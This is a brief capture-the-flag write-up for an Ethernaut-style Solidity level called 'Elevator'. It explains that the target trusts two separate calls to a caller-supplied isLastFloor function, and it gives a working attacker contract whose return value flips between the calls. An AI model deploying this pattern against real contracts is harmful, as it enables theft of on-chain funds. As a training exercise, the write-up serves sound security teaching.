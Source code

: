 Level 11: Elevator

Objective:

Reach the top of the elevator without getting stuck.

Vulnerability:

Caller trust in return value of a contract without consistency checks.

Explanation:

The contract checks building.isLastFloor(floor) and if it returns false it sets the floor. However the check and the action are separate calls allowing an attacker contract to change its return value between calls.

Solution:

Deploy an attacker contract like:

contract ElevatorAttack {
    bool public toggle = true;
    Elevator public target;

    constructor(address _target) {
        target = Elevator(_target);
    }

    function isLastFloor(uint) external returns (bool) {
        toggle = !toggle;
        return toggle;
    }

    function attack() external {
        target.goTo(1);
    }
}

Key Takeaways:

Do no trust external interfaces and contracts call as they can be hacked.
